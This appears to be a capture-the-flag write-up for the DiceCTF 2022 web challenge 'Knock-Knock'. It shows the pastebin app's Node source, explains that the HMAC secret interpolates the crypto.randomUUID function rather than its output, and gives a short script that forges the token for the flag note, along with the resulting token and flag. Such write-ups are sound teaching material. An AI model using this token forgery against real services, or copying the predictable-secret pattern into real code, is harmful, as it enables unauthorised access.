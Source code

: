 ```yaml
---
layout: writeups
title: Knonk-Knock - DiceCTF 2022
date: 2022-2-07
desc: "Knock knock? Who's there? Another pastebin!!"
category: "Web"
---
```


Knock knock? Who's there? Another pastebin!!

## Code Review | index.js

```js
const crypto = require('crypto');

class Database {
  constructor() {
    this.notes = [];
    this.secret = `secret-${crypto.randomUUID}`;
  }

  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }

  getNote({ id, token }) {
    if (token !== this.generateToken(id)) return { error: 'invalid token' };
    if (id >= this.notes.length) return { error: 'note not found' };
    return { data: this.notes[id] };
  }

  generateToken(id) {
    return crypto
      .createHmac('sha256', this.secret)
      .update(id.toString())
      .digest('hex');
  }
}

const db = new Database();
db.createNote({ data: process.env.FLAG });

const express = require('express');
const app = express();

app.use(express.urlencoded({ extended: false }));
app.use(express.static('public'));

app.post('/create', (req, res) => {
  const data = req.body.data ?? 'no data provided.';
  const { id, token } = db.createNote({ data: data.toString() });
  res.redirect(`/note?id=${id}&token=${token}`);
});

app.get('/note', (req, res) => {
  const { id, token } = req.query;
  const note = db.getNote({
    id: parseInt(id ?? '-1'),
    token: (token ?? '').toString(),
  });
  if (note.error) {
    res.send(note.error);
  } else {
    res.send(note.data);
  }
});

app.listen(3000, () => {
  console.log('listening on port 3000');
});
```

Let's take it from beginning

#### Where flag is stored?
```js
const db = new Database();
db.createNote({ data: process.env.FLAG });
```
When the server starts a new Database object is created and also a note which contains the flag.
The flag is stored at `notes[0]` because `this.notes = [];` is an empty array consequently the flag will be stored at `notes[0]`.

#### Explain Constructor & createNote
```js
constructor() {
    this.notes = []; 
    this.secret = `secret-${crypto.randomUUID}`;
  }
```
```js 
  createNote({ data }) {
    const id = this.notes.length;
    this.notes.push(data);
    return {
      id,
      token: this.generateToken(id),
    };
  }
```
At constructor we have an array notes and a secret key. At secret variable the secret key starts with `secret-` but the problem is ${crypto.randomUUID}. The UUID part does not use a random uuid as the secret but the function itself i.e. the secret value is known.


## Final Exploit
```js
const crypto = require('crypto');

function generateToken(id,secret) { 
    return crypto
      .createHmac('sha256', secret) 
      .update(id.toString()) 
      .digest('hex'); 
  }

var id = 0; // Flag id
var secret = `secret-${crypto.randomUUID}`;

console.log(secret);
console.log(generateToken(id,secret));

```

Now, run the nodejs script 

![](https://files.bitwarriors.net/images/knock-knock/knock.PNG)

and use the token  7bd881fe5b4dcc6cdafc3e86b4a70e07cfd12b821e09a81b976d451282f6e264 to grab the flag dice{1_d00r_y0u_d00r_w3_a11_d00r_f0r_1_d00r}.

![](https://files.bitwarriors.net/images/knock-knock/knock1.PNG)


